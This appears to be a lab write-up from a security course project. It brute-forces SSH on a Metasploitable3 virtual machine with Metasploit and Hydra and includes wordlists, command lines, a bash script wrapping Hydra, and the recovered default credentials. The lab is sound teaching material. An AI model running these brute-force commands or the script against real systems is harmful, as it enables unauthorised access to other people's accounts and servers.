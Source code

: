 # Phase 1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

* **Phase 1.1**: Brute-force attack using Metasploit and custom wordlists
* **Phase 1.2**: Automated brute-force attack using a Bash script with Hydra

---

## Environment Setup

* **Attacker Machine**: Kali Linux

  * Hostname: `kali`
  * Host-Only IP Address: `192.168.56.104`
  * NAT IP Address: `10.0.2.15`
  * Username: `kali`

* **Victim Machine**: Metasploitable3

  * Hostname: `metasploitable3`
  * Host-Only IP Address: `192.168.56.103`
  * NAT IP Address: `10.0.2.2`
  * Username: `vagrant`
  * Password: `vagrant`

* **Targeted Service**

  * **Service**: SSH
  * **Port**: 22
  * **Vulnerability**: Default/weak credentials
  * **Goal**: Compromise SSH access via brute-force attack

---

## Phase 1.1 – SSH Brute-Force Attack Using Metasploit

### 1. Launch Metasploit Framework

We started Metasploit with:

```bash
msfconsole
```

![Metasploit Launch](./Phase1_Screenshots/metasploit-launch.png)

---

### 2. Select and Configure Module

We selected the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

We then configured the target:

```bash
set RHOSTS 192.168.56.103
```

![Select Module](./Phase1_Screenshots/select-module.png)

---

### 3. Prepare and Load Wordlists

We created two files:

**user.txt**

```
msfadmin
user
postgres
vagrant
Rana
Sarah
Password
```

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
123456789
101918
```

We set these files in Metasploit:

```bash
set USER_FILE user.txt
set PASS_FILE pass.txt
set VERBOSE true
```

![Wordlists Setup](./Phase1_Screenshots/set-wordlists.png)

---

### 4. Run the Attack

```bash
run
```

Metasploit attempted multiple combinations. It successfully logged in using:

* **Username**: `vagrant`
* **Password**: `vagrant`

```text
[+] 192.168.56.103:22 - Success: 'vagrant:vagrant'
```

![SSH Login Success](./Phase1_Screenshots/ssh-success.png)

---

### Summary

We successfully brute-forced the SSH credentials on Metasploitable3 using Metasploit and a dictionary attack. This confirms that the service is vulnerable due to default credentials.

---

## Phase 1.2 – Automated Hydra Attack Using Bash Script

### 1. Connectivity Test

We first verified that the attacker can reach the victim via `ping`:

```bash
ping 192.168.56.103
```

![Ping Test](./Phase1_Screenshots/ping-success.png)

---

### 2. Prepare Username and Password Lists

We created the following files:

**user.txt**

```
msfadmin
user
postgres
vagrant
```

![User List](./Phase1_Screenshots/user-list.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

![Password List](./Phase1_Screenshots/pass-list.png)

---

### 3. Run Hydra

Using the following command:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

Hydra successfully found:

* **Username**: `vagrant`
* **Password**: `vagrant`

![Hydra Success](./Phase1_Screenshots/hydra-success.png)

---

### 4. Bash Script Execution

We automated the attack with the following script:

**ssh\_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

![Script Code](./Phase1_Screenshots/script-code.png)

Then ran:

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

Output confirmed success:

![Script Output](./Phase1_Screenshots/script-output.png)

---

## Conclusion

In both Phase 1.1 and 1.2, we successfully compromised the Metasploitable3 SSH service using dictionary-based brute-force attacks. The presence of weak/default credentials (`vagrant:vagrant`) made the system vulnerable. This confirms the need for further security hardening in the upcoming phases.

